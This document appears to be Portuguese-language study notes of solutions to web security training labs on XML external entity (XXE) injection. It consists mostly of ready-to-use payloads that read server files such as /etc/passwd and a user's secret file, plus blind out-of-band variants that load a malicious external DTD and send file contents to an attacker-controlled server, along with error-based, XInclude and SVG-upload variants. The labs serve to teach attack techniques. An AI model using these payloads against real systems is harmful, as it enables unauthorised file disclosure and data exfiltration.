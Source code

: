 # XXE Injection

Escaneie as requisições que envolvem XML com o Burp, seja um scan ativo, seja uma porção específica.

Assim como o SSRF, normalmente aparece no endpoint `/product/stock`.

Também pode aparecer em parâmetros da requisição, mas é menos comum.

![image](https://github.com/user-attachments/assets/b0ce8d8e-5af4-4227-890a-2b2fbcdd8aac)

Payload genérico para ler arquivos:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId>
<storeId>1</storeId></stockCheck>
```

<br>

## Laboratórios

**Blind XXE with Out-of-Band Interaction via XML Parameter Entities**
```
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

<br>
<br>

**Exploiting Blind XXE to Exfiltrate Data Using a Malicious External DTD**

No servidor de exploit:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://EXPLOIT-SERVER/?x=%file;'>">
%eval;
%exfiltrate;
```

Na requisição:
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://YOUR-DTD-URL"> %xxe; ]>
```

<br>

Outra opção, no servidor de exploit:
```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % stack "<!ENTITY &#x25; exfil SYSTEM 'http://EXPLOIT-SERVER/?%file;'>">
```

Na requisição:
```
<!DOCTYPE foo [<!ENTITY % loadDtd SYSTEM "http://YOUR-DTD-URL"> %loadDtd; %stack; %exfil;]>
```

<br>

Versão adaptada:
```
<!ENTITY % file SYSTEM "file:///home/carlos/secret">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://OASTIFY.COM/?x=%file;'>">
%eval;
%exfil;
```

<br>
<br>

**Exploiting Blind XXE to Retrieve Data via Error Messages**

No servidor de exploit:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

Na requisição:
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
```

<br>
<br>

Exploiting XInclude to Retrieve Files
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>

productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

Versão adaptada:
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///home/carlos/secret"/></foo>

# URL Encoded
<foo+xmlns%3axi%3d"http%3a//www.w3.org/2001/XInclude"><xi%3ainclude+parse%3d"text"+href%3d"file%3a///etc/hostname"/></foo>
```

<br>
<br>

**Exploiting XXE via Image File Upload**

Se você fizer o upload de um arquivo `.jpg` e mudar o conteúdo, lembre-se the alterar a extensão e o content type para `image/svg+xml`.
```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg> 
```
